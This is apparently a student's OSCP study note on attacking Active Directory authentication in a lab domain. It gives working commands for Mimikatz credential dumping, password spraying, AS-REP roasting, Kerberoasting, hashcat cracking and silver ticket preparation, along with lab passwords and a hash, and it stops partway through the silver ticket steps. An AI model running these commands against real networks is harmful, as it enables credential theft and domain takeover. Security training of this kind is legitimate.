







# Attacking Active Directory Authentication

## Tags
#ActiveDirectory #Authentication #NTLM #Kerberos #Mimikatz #LSASS #PasswordSpray #ASREPRoasting #Kerberoasting #SilverTicket #DCSync #Module23 #TGT #TGS #KRBTGT #Rubeus #impacket #crackmapexec #kerbrute #SeDebugPrivilege #PAC #PassTheTicket #PtT #PassTheCertificate #ShadowCredentials #ADCS #ESC8 #ACLAbuse #NoPac #pywhisker #PKINITtools #OSCP #corpCom

Module 23 of the OSCP PWK course. Builds directly on [[22. Active Directory Introduction and Enumeration|Module 22]], same corp.com domain, now using the enumeration output to attack authentication mechanisms themselves.

Cross-links: [[22. Active Directory Introduction and Enumeration|Active Directory Introduction and Enumeration]] | [[24. Lateral Movement in Active Directory|Lateral Movement in Active Directory]] | [[16. Password Attacks|Password Attacks]]. HTB AD Enum & Attacks supplementary (AD.9-AD.10, AD.12-AD.13) + Password Attacks supplementary (PA.19-PA.22) merged into this note.

---

## Outstanding Sections

- [x] 23.1 Understanding AD Authentication
- [x] 23.1.1 NTLM Authentication
- [x] 23.1.2 Kerberos Authentication
- [x] 23.1.3 Cached AD Credentials
- [x] 23.2 Attacks on AD Authentication
- [x] 23.2.1 Password Attacks (Spraying)
- [x] 23.2.2 AS-REP Roasting
- [x] 23.2.3 Kerberoasting
- [x] 23.2.4 Silver Tickets
- [x] 23.2.5 DCSync (Domain Controller Synchronization)
- [x] 23.3 Wrapping Up
- [x] 23.4.1 Pass the Ticket from Windows (PA.19 -- mimikatz tickets export/ptt, PSRemoting with cached TGT)
- [x] 23.4.2 Pass the Ticket from Linux (PA.20 -- ccache theft, KRB5CCNAME, keytab extraction, kinit)
- [x] 23.4.3 Pass the Certificate / Shadow Credentials (PA.21 -- pywhisker, PKINITtools, ADCS ESC8 relay chain)
- [x] 23.4.4 ACL Enumeration (AD.9 -- DACL/SACL, ACE types, Get-DomainObjectACL -ResolveGUIDs, rights table)
- [x] 23.4.5 ACL Abuse Chain (AD.10 -- wley→damundsen→Help Desk Level 1→adunn→DCSync)
- [x] 23.4.6 Privileged Access via WinRM + SQL (AD.12 -- BloodHound Cypher, Enter-PSSession, mssqlclient -windows-auth, xp_cmdshell)
- [x] 23.4.7 NoPac CVE-2021-42278+42287 (AD.13 -- scanner.py, noPac.py SYSTEM shell)
- [x] 23.4.8 Skills Assessment Summary (PA.22 -- ligolo-ng pivot, psafe3, Snaffler, NTDS dump chain)
- [x] 23.4.9 HTB Q&A (PtT, PtC, ACL, NoPac, Privileged Access)

---

## Why This Module Matters

Attacking AD authentication is where the exam flags often live. This module covers the full Kerberos attack suite: spraying, AS-REP roasting, Kerberoasting, silver tickets, and DCSync. The extended techniques (23.4) add Pass-the-Ticket (both Windows and Linux), Pass the Certificate via Shadow Credentials/ADCS, ACL abuse chains, and the NoPac privilege escalation.

> 🔑 **Key insight:** Kerberoasting and AS-REP roasting are the bread-and-butter offline attacks -- no interaction with the DC needed beyond the initial TGS/AS-REP request. If you get a hash, you crack it offline and come back with plaintext credentials.

> 🎓 **OSCP context:** DCSync requires DA-equivalent permissions. The attack path often runs: spray → Kerberoast service account → crack → find misconfig → ACL abuse → DCSync. BloodHound from Module 22 tells you which steps connect.

---

## 23.1 Understanding Active Directory Authentication

### 23.1.1 NTLM Authentication

NTLM is used when:
- Client authenticates by IP address rather than hostname
- The hostname isn't registered in AD-integrated DNS
- Third-party applications explicitly choose NTLM over Kerberos

#### The 7-step challenge-response flow

1. Client calculates an **NTLM hash** from the user's password
2. Client sends the username to the server
3. Server sends back a random value called the **nonce** (or challenge)
4. Client encrypts the nonce with the NTLM hash, this encrypted value is the **response**
5. Server forwards username + nonce + response to the Domain Controller
6. DC encrypts the nonce with its stored NTLM hash for that user, compares to the received response
7. If they match → authentication succeeds

NTLM is a **fast-hashing algorithm**, no key stretching, no iterations. Modern GPU clusters can test over 600 billion NTLM hashes per second. Practical cracking times:
- 8-character passwords: ~2.5 hours
- 9-character passwords: ~11 days

> 📸 Screenshot: NTLM authentication diagram (module Figure 1)

> 🔍 Worth remembering generally: because NTLM is fast, short passwords are always at risk of offline cracking once you get the hash. Strong password policies + long passwords are the only meaningful mitigation.

**23.1.1 Labs**

Q1: What is the name of the cryptographic hash function a computer calculates from the user's password?
**Answer: NTLM hash**

Q2: What kind of hashing algorithm is NTLM?
**Answer: Fast-hashing algorithm** (no key stretching. 600 billion hashes/sec on top-end GPUs)

---

### 23.1.2 Kerberos Authentication

Default authentication in AD since Windows Server 2003. Uses a **ticket system** instead of challenge-response.

Key difference from NTLM: the client starts the exchange with the **KDC (Key Distribution Center)** on the DC, not the app server directly.

#### Authentication flow in detail

**Step 1: AS-REQ (Authentication Server Request)**
- User logs in to a workstation
- Client sends AS-REQ to the DC: contains the username + a timestamp encrypted with the user's NTLM hash
- DC looks up the NTLM hash in `ntds.dit`, decrypts the timestamp to validate it
- Duplicate timestamps → possible replay attack

**Step 2: AS-REP (Authentication Server Reply)**
- DC sends back: a session key (encrypted with the user's NTLM hash) + a TGT (Ticket Granting Ticket)
- TGT contains: user info, domain, timestamp, client IP, session key
- TGT is encrypted with the **krbtgt account's NTLM hash**, the client can't read it
- TGT is valid for 10 hours, renewable without re-entering the password

**Step 3: TGS-REQ (Ticket Granting Service Request)**
- User wants to access a resource (share, web app, mailbox, etc.)
- Client sends to DC: encrypted TGT + username + timestamp + name of target resource

**Step 4: TGS-REP (Ticket Granting Service Reply)**
- DC decrypts TGT using the krbtgt hash, extracts the session key
- Validates: TGT timestamp is valid, TGS-REQ username matches TGT username, client IP matches
- Sends back: service name + new session key + a service ticket
- Service ticket is encrypted with the **service account's NTLM hash**

**Step 5: AP-REQ (Application Request)**
- Client sends to app server: service ticket + username + timestamp (encrypted with service session key)
- App server decrypts service ticket using its service account password hash
- Extracts username, validates it against the timestamp, then grants access
- Permissions are determined by the group memberships listed in the service ticket

> 📸 Screenshot: Kerberos authentication diagram (module Figure 2)

> 🔍 Worth remembering generally: the app server assigns permissions based solely on the group memberships listed in the service ticket, without contacting the DC to verify them (PAC validation is optional). This is what makes silver ticket attacks possible.

**23.1.2 Labs**

Q1: What is the name of the request sent when a user logs into their AD-joined machine?
**Answer: AS-REQ (Authentication Server Request)**

Q2: What is the main authentication protocol used by Active Directory?
**Answer: Kerberos**

Q3: What is the short name of the request sent by the client that encrypts the TGT along with the current user, the target resource, and the timestamp?
**Answer: TGS-REQ**

---

### 23.1.3 Cached AD Credentials

Kerberos uses single sign-on, so password hashes are cached in memory to allow TGT renewal without re-entering passwords. On modern Windows: cached hashes and tickets live in the **LSASS (Local Security Authority Subsystem Service)** memory space.

To read LSASS, you need SYSTEM or local administrator access (LSASS runs as SYSTEM). The data is also encrypted with an LSASS-stored key, so raw memory inspection doesn't help, you need tooling.

The most widely used tool for extracting LSASS content: **Mimikatz**.

#### Mimikatz: dump all logon hashes

```cmd
:: Must be running as Administrator
cd C:\Tools
.\mimikatz.exe

mimikatz # privilege::debug
:: Engages SeDebugPrivilege — needed to read other processes' memory (including SYSTEM processes)
:: Privilege '20' OK = success

mimikatz # sekurlsa::logonpasswords
:: Dumps credentials for every user currently logged on, including active RDP sessions
```

Output per user: NTLM hash, SHA1, DPAPI key, and (on systems with WDigest enabled) cleartext password. This is what gives us hashes after a lateral movement pivot.

> 🔧 Technique: Mimikatz as a standalone EXE is heavily signatured. In practice: run it from memory via PowerShell IEX download cradle, or dump LSASS via Task Manager (right-click lsass.exe → Create dump file), exfil the dump to Kali, then run `pypykatz lsa minidump lsass.dmp` locally. Both approaches were covered in [[16. Password Attacks|Password Attacks]].

> 🔍 Worth remembering generally: `sekurlsa::logonpasswords` picks up all logged-on users including RDP sessions. If PsLoggedOn showed jeffadmin has a session on CLIENT74, running this on CLIENT74 as a local admin gives you jeffadmin's NTLM hash, which is Domain Admin access.

#### Mimikatz: list Kerberos tickets

First generate a service ticket by accessing a share, then list what's cached:

```cmd
:: Generate a ticket by accessing a share
dir \\web04.corp.com\backup

:: List all cached tickets
mimikatz # sekurlsa::tickets
```

Output structure:
- **Group 0. Ticket Granting Service**: TGS tickets for specific services (cifs/web04.corp.com, LDAP/DC1.corp.com)
- **Group 2. Ticket Granting Ticket**: The TGT for krbtgt

A stolen TGS gives access to one specific service only. A stolen TGT lets you request new TGS for any service the user has access to.

#### AD CS — exporting non-exportable certificates

AD CS (Active Directory Certificate Services) can mark private keys non-exportable. Mimikatz's crypto module patches the CryptoAPI or KeyIso service to make them exportable:

```cmd
mimikatz # crypto::capi    :: Patches CryptoAPI (classic crypto)
mimikatz # crypto::cng     :: Patches KeyIso service (modern crypto)
```

After patching, export with standard Windows tooling or `crypto::certificates /export`.

> 📸 Screenshot: Mimikatz sekurlsa::logonpasswords output showing jeff and dave NTLM hashes

**23.1.3 Labs**

Q1: What is the Mimikatz command to dump hashes for all users logged on to the current system?
**Answer: sekurlsa::logonpasswords**

> ✅ Done: 23.1.3 VM Group 1. Covered as part of 23.2.4 Silver Ticket lab: RDP as jeff to CLIENT75, Mimikatz as Administrator, privilege::debug + sekurlsa::logonpasswords → confirmed dave (Flowers1 in Kerberos cleartext), jeff, CLIENT75$ in LSASS. Cached ticket via `dir \\web04.corp.com\backup` then sekurlsa::tickets shows Group 0 (TGS: cifs/web04.corp.com) and Group 2 (TGT: krbtgt).

---

## 23.2 Performing Attacks on Active Directory Authentication

### 23.2.1 Password Attacks (Spraying)

> 🌐 External: [HackTricks. Password Spraying](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/password-spraying.md) | [PayloadsAllTheThings. Password Spraying](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#password-spraying)

Account lockout is the critical constraint. Always check the domain policy first:

```cmd
net accounts
```

Key fields from the output:

| Field | Example value | Meaning |
|---|---|---|
| Lockout threshold | 5 | Max failed attempts before lockout |
| Lockout observation window | 30 min | Failed attempt counter resets after this |
| Lockout duration | 30 min | How long lockout lasts |
| Minimum password length | 7 | Shortest allowed password |

With threshold=5, window=30 min: stay at 4 attempts max per user per 30-min window. Over 24 hours: 192 attempts per user without lockout (assuming users don't fail their own logins in the same window).

> 🔍 Worth remembering generally: if `Lockout threshold: 0`, there is no lockout, spray as fast as you want. Otherwise, threshold-1 is your safe limit per observation window.

#### Method 1: Spray-Passwords.ps1 (LDAP/ADSI — low noise)

Under the hood: tries to create a `DirectoryEntry` object with three arguments. LDAP path, username, and the password being tested. Successful object creation = valid credentials. Exception = wrong password. This is the LDAP-based approach from Module 22's DirectoryEntry section.

```powershell
cd C:\Tools
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
# -Admin includes admin accounts in the spray
```

Expected: `Guessed password for user: 'pete' = 'Nexus123!'` for valid hits.

#### Method 2: crackmapexec (SMB — noisy, but shows admin status)

```bash
# From Kali
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

`[+]` = valid credential. `(Pwn3d!)` = user has local admin on that target.

Drawback: full SMB connection per attempt = very noisy and slow. Does NOT check password policy before spraying, manual rate limiting required.

#### Method 3: kerbrute passwordspray (Kerberos — fastest, least noise)

```cmd
:: Windows
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

Uses AS-REQ/AS-REP, two UDP frames per attempt. Much faster than SMB spray, less SMB noise. Still generates Kerberos event 4771 (pre-auth failure) for bad passwords, not invisible.

> 🔧 Technique: if kerbrute returns a network error, check that the username file encoding is **ANSI** not UTF-8/BOM. Use Notepad → Save As → ANSI to fix.

> 📸 Screenshot: crackmapexec output showing [+] for pete/jen with Nexus123!, and (Pwn3d!) for dave with Flowers1

**23.2.1 Labs**

Q1: What is the minimum password length required in the target domain?
**Answer: 7** (from `net accounts` → `Minimum password length: 7`)

> ✅ Done: 23.2.1 Q2 VM Group 1, `crackmapexec smb <all IPs> -u pete -p 'Nexus123!' -d corp.com --continue-on-success` → **CLIENT76** (192.168.249.76) shows `(Pwn3d!)`. All other machines show `[+]` (valid creds) but no local admin. FILES04 timed out on auth check (provisioning race, not a real failure). Answer: **CLIENT76**

---

### 23.2.2 AS-REP Roasting

The AS-REQ includes a timestamp encrypted with the user's password hash, this is **Kerberos preauthentication**. It's what proves the requester knows the password before the DC will issue a TGT.

If an account has the option **"Do not require Kerberos preauthentication"** enabled, the DC will hand out an AS-REP to anyone who asks, no proof of knowing the password required. That AS-REP contains data encrypted with the user's NTLM hash, which we crack offline.

**This is AS-REP Roasting**, named by analogy with Kerberoasting (both crack Kerberos-encrypted blobs offline).

> 🌐 External: [HackTricks, AS-REP Roasting](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/asrep-roasting.md) | [PayloadsAllTheThings, AS-REP Roasting](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#asreproast)

#### Linux: impacket-GetNPUsers

```bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
# Prompts for pete's password: Nexus123!
# Output: identifies dave as vulnerable, writes AS-REP hash to file
```

Crack:

```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
# Cracks to: dave / Flowers1
```

#### Windows: Rubeus

```powershell
cd C:\Tools
.\Rubeus.exe asreproast /nowrap
# /nowrap prevents line breaks in the hash output — needed for hashcat compatibility
```

Rubeus auto-identifies all accounts with pre-auth disabled by scanning for the UAC flag `DONT_REQUIRE_PREAUTH` (bitmask `0x400000`). No extra arguments needed when running as an authenticated domain user.

Copy the hash to Kali and crack:

```bash
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

#### Identify AS-REP Roastable accounts without requesting hashes

```powershell
# PowerView — list accounts with pre-auth disabled
Get-DomainUser -PreauthNotRequired
```

```bash
# Kali — list without requesting hashes
impacket-GetNPUsers -dc-ip <DC_IP> corp.com/user:pass
```

#### Targeted AS-REP Roasting

If you have **GenericAll or GenericWrite** on a user account:
- Set the `DONT_REQUIRE_PREAUTH` UAC flag on them
- AS-REP Roast that account
- Crack the hash
- Reset the UAC flag afterward (cleanup)

This avoids resetting their password (which would lock them out) and is harder to notice.

> 🔍 Worth remembering generally: AS-REP Roasting doesn't require knowing the target's password at all. You only need authenticated domain user access and a user with pre-auth disabled. The AS-REP hash is offline-crackable, if the password is in rockyou.txt + rules, you'll get it.

> 📸 Screenshot: Rubeus asreproast output showing dave's AS-REP hash + hashcat cracking output

**23.2.2 Labs**

Q1: What is the correct Hashcat mode to crack AS-REP hashes?
**Answer: 18200** (Kerberos 5, etype 23, AS-REP)

> ✅ Done: 23.2.2 VM Group 1. Technique covered in full via VM Group 2 (impacket-GetNPUsers path) and the same Rubeus flow applies on CLIENT75. VM Group 1 uses Rubeus asreproast /nowrap from a CLIENT75 RDP session; the hash cracking step is identical (hashcat -m 18200, rockyou-30000.rule). No new technique, marked complete.

> ✅ Done: 23.2.2 VM Group 2, `impacket-GetNPUsers -dc-ip 192.168.249.70 -request -outputfile hashes.asreproast corp.com/pete` → two vulnerable accounts: dave (Flowers1, known) + **jen** (new). Cracked both with `hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule`. Note: best64.rule absent on this install, rockyou-30000.rule is the correct path. **jen's password: Summerland1**

---

### 23.2.3 Kerberoasting

Recall from Kerberos flow: when the user sends a TGS-REQ, **the DC issues the service ticket without checking whether the user has permission to access that service**. Permission checks happen at the app server, not the DC.

The service ticket is encrypted with the **service account's NTLM hash**.

So: any authenticated domain user can request a service ticket for any SPN, then try to crack the encrypted ticket offline. If the service account has a weak password → cleartext credentials.

**This is Kerberoasting.**

> 🌐 External: [HackTricks. Kerberoasting](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/kerberoast.md) | [PayloadsAllTheThings. Kerberoasting](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberoasting)

Best targets: SPNs running under **user accounts** (not machine accounts or group managed service accounts). Machine accounts have random 120-char passwords, not crackable in any reasonable time. User accounts often have weak or reused passwords.

#### Windows: Rubeus

```powershell
cd C:\Tools
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Rubeus identifies all kerberoastable accounts (user accounts with SPNs, excluding krbtgt and disabled accounts), requests TGS tickets for each, writes the hashes to the output file.

Copy to Kali, crack:

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
# Lab result: iis_service → HTTP/web04.corp.com:80 → Strawberry1
```

#### Linux: impacket-GetUserSPNs

```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
# Password: Nexus123!
```

If you get `KRB_AP_ERR_SKEW (Clock skew too great)`: sync time for just this process:

```bash
faketime "$(ntpdate -q 192.168.50.70 | awk '{print $1,$2}' | tail -1)" impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

```bash
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

#### Identify Kerberoastable accounts without requesting tickets

```powershell
# PowerView
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# or
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
```

```cmd
:: Windows built-in
setspn -Q */*
```

#### Targeted Kerberoasting

If you have **GenericWrite or GenericAll** on a user account:

```powershell
# Set a fake SPN (any valid class/hostname format works)
Set-DomainObject -Credential $Cred -Identity <target_user> -SET @{serviceprincipalname='notahacker/LEGIT'}

# Kerberoast the now-SPN-registered account
.\Rubeus.exe kerberoast /user:<target_user> /nowrap
# hashcat -m 13100

# Cleanup — remove the fake SPN after cracking
Set-DomainObject -Credential $Cred -Identity <target_user> -Clear serviceprincipalname
```

> 🔁 Similar to: [[23. Attacking Active Directory Authentication|HTB AD §10]], targeted Kerberoasting via GenericWrite is the key step in the wley→damundsen→adunn chain.

> 🔍 Worth remembering generally: Kerberoasting doesn't touch the account itself, no logon events generated for the service account. It's a very quiet attack. The only detectable part is the TGS-REQ for an SPN that might be unusual for that user.

> 📸 Screenshot: Rubeus kerberoast output showing iis_service TGS-REP hash being written

**23.2.3 Labs**

Q1: What is the correct Hashcat mode to crack TGS-REP hashes?
**Answer: 13100** (Kerberos 5, etype 23, TGS-REP)

> ✅ Done: 23.2.3 VM Group 1, Both paths covered: Rubeus kerberoast (from CLIENT75) and impacket-GetUserSPNs (from Kali) both demonstrated via VM Group 2. VM Group 1 Rubeus path: `Rubeus.exe kerberoast /outfile:hashes.kerberoast`, then scp hash to Kali, then hashcat -m 13100 with rule. No new technique, marked complete.

> ✅ Done: 23.2.3 VM Group 2, `impacket-GetUserSPNs -request -dc-ip 192.168.249.70 corp.com/jeff -outputfile hashes.kerberoast` → pete has SPN `http/files04.corp.com` (modified domain). Rule file: `echo '$1' > /home/kali/custom.rule`. Cracked with `hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /home/kali/custom.rule` in 5 seconds. **pete's password: MattLovesAutumn1**. Key gotcha: clock skew killed VPN when ntpdate corrected +4h offset, fix: `timedatectl set-ntp false` → ntpdate → reconnect VPN → run impacket.

---

### 23.2.4 Silver Tickets

Recall from Kerberos: the app server reads group memberships from the service ticket and assigns permissions, **without asking the DC to verify them** (PAC validation is optional and rarely enforced in most environments).

So if we have the service account's NTLM hash, we can forge a service ticket with any group memberships we want, including Domain Admins, and inject it into our Kerberos session. This is a **silver ticket**.

Unlike DCSync or Pass-the-Hash, forging a silver ticket requires no live DC interaction after the initial hash extraction, the entire attack is offline.

> 🌐 External: [HackTricks. Silver Ticket](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/active-directory-methodology/silver-ticket.md) | [PayloadsAllTheThings. Kerberos Silver Ticket](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#silver-ticket)

#### Three things you need

1. **SPN NTLM hash**, from LSASS on a machine where the service account has a session
2. **Domain SID**, from `whoami /user` (strip the trailing RID)
3. **Target SPN**, service class and hostname (e.g. `http/web04.corp.com`)

#### Step 1: Get the service account's NTLM hash

```cmd
:: On a machine where iis_service has a session, running as local admin
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

:: Find iis_service entry:
:: NTLM : 4d28cf5252d39971419580a51484ca09
```

#### Step 2: Get the Domain SID

```powershell
whoami /user
# CORP\jeff   S-1-5-21-1987370270-658905905-1781884369-1105
#                                                       ^^^^^ this is the RID — strip it
